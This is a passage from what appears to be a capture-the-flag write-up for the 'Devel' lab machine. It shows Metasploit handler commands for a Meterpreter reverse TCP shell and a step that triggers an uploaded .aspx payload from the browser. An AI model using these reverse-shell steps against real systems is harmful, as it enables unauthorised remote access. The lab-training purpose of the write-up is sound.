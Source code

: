 ###### output

![](/Windows/Windows-Easy/Devel/Screenshots/putdevel.png)

We then start a listener in Metasploit,

###### code 

```sh
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 4445
set ExitOnSession false
exploit -j
```

###### output
![](/Windows/Windows-Easy/Devel/Screenshots/msfconsoledevel.png)

Then we navigate to the browser by browsing [http://10.10.10.5/devel.aspx](http://10.10.10.5/devel.aspx) will trigger
the reverse shell
